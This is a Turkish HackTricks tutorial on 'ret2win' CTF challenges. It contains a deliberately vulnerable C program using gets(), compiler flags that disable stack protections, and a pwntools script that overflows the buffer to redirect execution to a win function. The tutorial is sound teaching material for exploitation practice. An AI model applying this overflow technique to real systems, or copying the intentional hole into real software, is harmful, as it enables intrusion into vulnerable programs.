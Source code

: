 # Ret2win

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

- **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
- [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin, özel [**NFT'lerimizi**](https://opensea.io/collection/the-peass-family) görün
- 💬 **Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'ı takip edin.
- **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Temel Bilgiler

**Ret2win** zorlukları, özellikle **binary exploitation** içeren görevlerde, **Capture The Flag (CTF)** yarışmalarında popüler bir kategoridir. Amacımız, verilen bir binary dosyasındaki bir zafiyeti sömürerek genellikle `win`, `flag` vb. gibi adlandırılan belirli bir çağrılmamış işlevi çalıştırmaktır. Bu işlev çalıştırıldığında genellikle bir bayrak veya başarı mesajı yazdırır. Genellikle, istenen işleve yürütme akışını yönlendirmek için **stack** üzerindeki **return address**'i üzerine yazarak bir zafiyeti sömürmek gerekmektedir. İşte örneklerle daha detaylı bir açıklama:

### C Örneği

Zafiyeti olan basit bir C programı ve çağırmayı amaçladığımız bir `win` işlevi düşünelim:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
Bu programı yığın korumaları olmadan ve **ASLR** devre dışı bırakılarak derlemek için aşağıdaki komutu kullanabilirsiniz:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-m32`: Programı 32 bitlik bir ikili olarak derle (bu isteğe bağlıdır ancak CTF zorluklarında yaygındır).
* `-fno-stack-protector`: Stack overflow'lara karşı korumaları devre dışı bırak.
* `-z execstack`: Stack üzerinde kodun çalışmasına izin ver.
* `-no-pie`: Adresin `win` fonksiyonunun değişmediğinden emin olmak için Konum Bağımsız Yürütülebilirliği devre dışı bırak.
* `-o vulnerable`: Çıkış dosyasını `vulnerable` olarak adlandır.

### Pwntools Kullanarak Python Sızma

Sızma için güçlü bir CTF çerçevesi olan **pwntools** kullanacağız. Sızma betiği, tamponu taşırarak ve dönüş adresini `win` fonksiyonunun adresiyle değiştirerek bir yük oluşturacaktır.
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
`win` fonksiyonunun adresini bulmak için **gdb**, **objdump** veya binary dosyaları incelemenize izin veren diğer araçları kullanabilirsiniz. Örneğin, `objdump` ile şu şekilde kullanabilirsiniz:
```sh
objdump -d vulnerable | grep win
```
Bu komut, `win` fonksiyonunun montajını ve başlangıç adresini gösterecektir.

Python betiği, `vulnerable_function` tarafından işlendiğinde tamamen özenle oluşturulmuş bir mesaj gönderir ve bu mesaj, tamponu taşırarak yığın üzerindeki dönüş adresini `win` adresiyle üzer yazar. `vulnerable_function` geri döndüğünde, `main`e geri dönmek veya çıkmak yerine `win`e atlar ve mesaj yazdırılır.

## Korumalar

* [**PIE**](../common-binary-protections-and-bypasses/pie/) adresin güvenilir olması için **devre dışı bırakılmalıdır** ya da işlevin depolanacağı adres her zaman aynı olmayacak ve `win` fonksiyonunun yüklendiği yeri belirlemek için bir sızıntıya ihtiyacınız olacaktır. Taşma nedeni olan işlev `read` veya benzeri olduğunda, dönüş adresini `win` fonksiyonu olacak şekilde 1 veya 2 bayt **Kısmi Üzerine Yazma** yapabilirsiniz. ASLR'nin çalışma şeklinden dolayı, son üç onaltılık hane rastgele değildir, bu yüzden doğru dönüş adresini elde etmek için **1/16 şans** (1 onaltılık) vardır.
* [**Yığın Kanaryaları**](../common-binary-protections-and-bypasses/stack-canaries/) da devre dışı bırakılmalıdır aksi takdirde tehlikeye düşen EIP dönüş adresi asla takip edilmeyecektir.

## Diğer örnekler ve Referanslar

* [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
* [https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html](https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html)
* 32 bit, ASLR yok
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html)
* 64 bit, ASLR ile, bin adresinin sızdırılması
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html)
* 64 bit, ASLR yok
* [https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html)
* 32 bit, ASLR yok, çift küçük taşma, yığını taşmak ve ikinci taşmanın boyutunu genişletmek için ilk taşma
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, kanarya yok, nx, pie yok, `fflush` adresini `win` fonksiyonuyla üzerine yazmak için format dizesi (ret2win)
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html)
* 32 bit, nx, başka bir şey yok, EIP'nin (1 Bayt) kısmi üzerine yazılmasıyla win fonksiyonunu çağırmak
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html)
* 32 bit, nx, başka bir şey yok, EIP'nin (1 Bayt) kısmi üzerine yazılmasıyla win fonksiyonunu çağırmak
* [https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html](https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html)
* Program, girişin boyutunu kontrol etmek için bir sayının son baytını doğruluyor, bu nedenle son baytın izin verilen aralık içinde olması koşuluyla herhangi bir boyut eklemek mümkündür. Ardından, giriş, bir ret2win ile istismar edilen bir tampon taşması oluşturur.
* [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
* 64 bit, relro, kanarya yok, nx, pie. Win fonksiyonunu çağırmak için kısmi üzerine yazma (ret2win)
